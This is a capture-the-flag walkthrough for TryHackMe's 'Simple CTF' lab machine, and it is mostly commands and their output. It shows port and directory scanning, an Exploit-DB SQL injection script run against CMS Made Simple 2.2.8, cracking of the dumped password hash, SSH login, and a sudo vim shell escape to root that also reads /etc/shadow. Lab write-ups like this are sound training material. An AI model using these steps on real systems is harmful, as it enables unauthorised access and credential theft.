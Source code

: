 # Simple CTF
Room - https://tryhackme.com/room/easyctf
# Enumeration
Start off with a port scan.
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sV -A 10.10.101.28
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-13 17:45 EST
Nmap scan report for 10.10.101.28
Host is up (0.11s latency).                                                                               
Not shown: 997 filtered tcp ports (no-response)                                                           
PORT     STATE SERVICE VERSION                                                                            
21/tcp   open  ftp     vsftpd 3.0.3                                                                       
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                    
|_Can't get directory listing: TIMEOUT                                                                    
| ftp-syst:                                                                                               
|   STAT:                                                                                                 
| FTP server status:                                                                                      
|      Connected to ::ffff:10.6.27.72                                                                     
|      Logged in as ftp                                                                                   
|      TYPE: ASCII                                                                                        
|      No session bandwidth limit                                                                         
|      Session timeout in seconds is 300                                                                  
|      Control connection is plain text                                                                   
|      Data connections will be plain text                                                                
|      At session startup, client count was 1                                                             
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
A few things stand out immediately: 
- SSH running on a non standard port
- Anonymous FTP login allowed
- Default Apache2 page

Further discovery on web server
```
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.101.28/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan 13 18:08:24 2023
URL_BASE: http://10.10.101.28/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.101.28/ ----
+ http://10.10.101.28/index.html (CODE:200|SIZE:11321)                                                   
+ http://10.10.101.28/robots.txt (CODE:200|SIZE:929)                                                     
+ http://10.10.101.28/server-status (CODE:403|SIZE:300)                                                  
==> DIRECTORY: http://10.10.101.28/simple/                                                               
```
/index.html - is the default apache landing page <br>
/robots.txt - is not really relevant <br>
/server-status - returns 403 forbidden <br>
/simple - is a hit and returns a webpage <br>
<br> ![](https://i.gyazo.com/839aabe1615d3b6ecf35aad5f8d362f6.png) <br>

Scrolling to the bottom it shows the software used to make the site and the version number. CMS Made Simple 2.2.8

![](https://i.gyazo.com/3f3b577a2b253f40cd94db030998ce79.png) <br>

# Exploit
Searching https://www.exploit-db.com/ for "CMS Made Simple 2.2.8" comes up with https://www.exploit-db.com/exploits/46635 <br>
This version of the CMS Made Simple is vulnerable to SQL injections and this python script takes advantage of that. <br>

*Note: I was using python 3 and had to add the parenthesis for the print statements for the program to work*


```
python3.10 Downloads/46635.py -u http://10.10.101.28/simple

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d9
```
Running the hash through hash identifier shows it is a MD5 hash
```
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0c01f4468bd75d7a84c7eb73846e8d96

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Using hashcat to crack the MD5 hash
```
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /home/kali/Desktop/rockyou.txt
```
Output
```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```
Now we have credentials to work with. <br> 
- Username: mitch <br>
- Password: secret
# Access
From the directoy enumeration earlier /simple/admin/login.php was found <br>
<br> ![](https://i.gyazo.com/4290489dfd4ae3a626b6665166b56236.png)

using the credentials to log in presents a control panel

![](https://i.gyazo.com/9db20519d1a484384bd5317ba090f28a.png)
*Theres not much here that is beneficial to the CTF*

Moving on to trying to use the credentials on SSH

```
$ ssh mitch@10.10.101.28 -p 2222  
mitch@10.10.101.28's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
```
Read the file on the home directory to find the first flag.

# Privilege Escalation 

Frist running `sudo -l` shows that mitch can run vim with sudo privileges.

`sudo vim /etc/shadow` allows us to read encrpyted passwords from accounts on the machine
copying the encrypted password from /etc/shadow and attempting to crack it could be a potential option, but there is a easier way. <br>

https://gtfobins.github.io/gtfobins/vim/#sudo

Using `sudo vim -c ':!/bin/sh'` allows us to use vim with sudo to get a root shell.
```# ^[[2;2Rwhoami 
/bin/sh: 1: not found
/bin/sh: 1: 2Rwhoami: not found
# whoami
root

# cd /root      
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
# 
```
Navigate to the home folder of root and read the root.txt file


